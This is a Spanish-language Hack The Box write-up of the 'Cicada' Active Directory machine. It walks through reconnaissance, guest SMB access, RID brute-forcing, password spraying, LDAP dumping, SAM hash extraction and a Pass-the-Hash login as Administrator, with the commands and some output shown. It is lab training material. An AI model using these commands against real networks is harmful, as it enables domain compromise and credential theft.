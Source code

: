 ```yaml
---
title: Cicada
published: 03 Oct 2024
---
```

* * *

En este writeup, exploramos la máquina Cicada de Hack The Box, donde explotamos Active Directory mediante la recopilación de información y la técnica Pass-the-Hash. Finalmente, logramos comprometer el dominio y extraer datos sensibles.

# [](#header-1)RECONOCIMIENTO

Empezaré por scanear todos los protocolos en la máquina objetivo:
  1. Escanear los puertos abiertos.
  2. Escanear los servicios en cada puerto que esté abierto.
	```js
		nmap -sCV -v 10.10.11.35 -Pn -T3
	```
Como resultado encontramos esto:
  ```js
  
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
	Starting Nmap 7.93 (https://nmap.org ) at 2024-10-02 12:18 CEST
	NSE: Loaded 155 scripts for scanning.
	NSE: Script Pre-scanning.
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating Parallel DNS resolution of 1 host. at 12:18
	Completed Parallel DNS resolution of 1 host. at 12:18, 0.01s elapsed
	Initiating Connect Scan at 12:18
	Scanning 10.10.11.35 [1000 ports]
	Discovered open port 135/tcp on 10.10.11.35
	Discovered open port 53/tcp on 10.10.11.35
	Discovered open port 445/tcp on 10.10.11.35
	Discovered open port 139/tcp on 10.10.11.35
	Discovered open port 464/tcp on 10.10.11.35
	Discovered open port 389/tcp on 10.10.11.35
	Discovered open port 593/tcp on 10.10.11.35
	Discovered open port 88/tcp on 10.10.11.35
	Discovered open port 3269/tcp on 10.10.11.35
	Discovered open port 3268/tcp on 10.10.11.35
	Discovered open port 636/tcp on 10.10.11.35
	Completed Connect Scan at 12:18, 4.00s elapsed (1000 total ports)
	Initiating Service scan at 12:18
	Scanning 11 services on 10.10.11.35
	Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 63.64% done; ETC: 12:18 (0:00:05 remaining)
	Completed Service scan at 12:19, 45.25s elapsed (11 services on 1 host)
	NSE: Script scanning 10.10.11.35.
	Initiating NSE at 12:19
	Completed NSE at 12:19, 40.04s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 1.60s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 0.00s elapsed
	Nmap scan report for 10.10.11.35
	Host is up (0.037s latency).
	Not shown: 989 filtered tcp ports (no-response)
	PORT     STATE SERVICE       VERSION
	53/tcp   open  domain        Simple DNS Plus
	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-02 17:18:36Z)
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
	| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
	| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
	| Issuer: commonName=CICADA-DC-CA
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2024-08-22T20:24:16
	| Not valid after:  2025-08-22T20:24:16
	| MD5:   9ec51a2340efb5b83d2c39d8447ddb65
	|_SHA-1: 2c936d7bcfd811b99f711a5a155d88d34a52157a
	|_ssl-date: TLS randomness does not represent time
	445/tcp  open  microsoft-ds?
	464/tcp  open  kpasswd5?
	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
```

  En especial encontramos un Active Directory (CICADA-DC.cicada.htb)

* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a probar un par de cosas:


Vamos a intentar conectarnos con la herramienta NetExec mediante SMB con el usuario "guest" a ver si podemos:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '
```
Y nos deja conectarnos:
```ruby
	[*] First time use detected
	[*] Creating home directory structure
	[*] Creating missing folder logs
	[*] Creating missing folder modules
	[*] Creating missing folder protocols
	[*] Creating missing folder workspaces
	[*] Creating missing folder obfuscated_scripts
	[*] Creating missing folder screenshots
	[*] Creating default workspace
	[*] Initializing FTP protocol database
	[*] Initializing LDAP protocol database
	[*] Initializing MSSQL protocol database
	[*] Initializing RDP protocol database
	[*] Initializing SMB protocol database
	[*] Initializing SSH protocol database
	[*] Initializing VNC protocol database
	[*] Initializing WINRM protocol database
	[*] Initializing WMI protocol database
	[*] Copying default configuration file
	SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
	SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```
Ahora voy a proceder a listar las carpetas que se comparte y encontramos algunas que pueden contener información sensible:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '' --shares
```
Y encontramos dos carpetas que son de nuestros interes, HR y DEV, voy a intentar acceder a HR a ver si puedo encontrar algo:
```js
smbclient //10.10.11.35/HR
```
```js
smb: \> ls
	  .                                   D        0  Thu Mar 14 13:29:09 2024
	  ..                                  D        0  Thu Mar 14 13:21:29 2024
	  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024
```
Y encontramos un .txt en el que dentro de el se encuentra una credencial.
![Texto alternativo](/assets/cicada.png)

Ahora con los usuarios que encontramos en SidTypeUser con este comando:
```js
cme smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
Lo metemos en un archivo y aplicamos fuerza bruta para probar esa credencial con todos los usuarios que hemos encontrado:
```js
netexec smb 10.10.11.35 -u users.list -p 'Credencial'
```
Y vemos que esa credencial coincide con el usuario "michael".
![Texto alternativo](/assets/cicada2.png)

Ahora con dumpear toda la información que podamos logueados como este usuario:
```js
ldapdomaindump ldap:/10.10.11.35 -u 'cicada.htb\michael.wrightson' -p "Credencial"
```
![Texto alternativo](/assets/cicada3.png)

Y mirando entre estos archivos, encontramos otra credencial, en este caso de el usuario "david" dentro del archivo (domain_users.grep).

Esta credencial y usuario nos va a permitir acceder a los archivos que se encuentra dentro de la carpeta DEV, ya que con el usuario "michael" no podía acceder.
![Texto alternativo](/assets/cicada4.png)
![Texto altenativo](/assets/cicada5.png)

Encontramos otra credencial dentro de ese archivo .ps1
Asique ahora mediante evil-winrm nos vamos a conectar al AD en busca de la user flag.
```js
evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p 'Credencial'
```
Y ya estamos dentro:

![Texto altenativo](/assets/cicada6.png)

Si buscamos un poco por los directorios, encontramos la user flag:
![Texto altenativo](/assets/cicada7.png)

# [](#header-1)Escalada de Privilegios

Primero de todo voy a ver sobre que tengo privilegios:

![Texto altenativo](/assets/cicada8.png)

Lo que voy a hacer ahora es extraer la base de datos SAM para extraer los hashes NTLM/NTHash que estan almacenadas en el sistema:
```js
pypykatz registry --sam sam system
```
```js
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:NTHASHDELUSUARIOADMINISTRATOR*********
	*******:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
	0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
	d7e0c089c0:::
```
Ahora una vez conseguido ese NTHash del usuario "Administrator" nos logueamos utilizando evil-winrm:
```js
evil-winrm -i 10.10.11.35 -u administrator -H "NTHASHdeAdministator"
```
Y ya encontrariamos la root flag.
![Texto altenativo](/assets/cicada9.png)

PWNED!
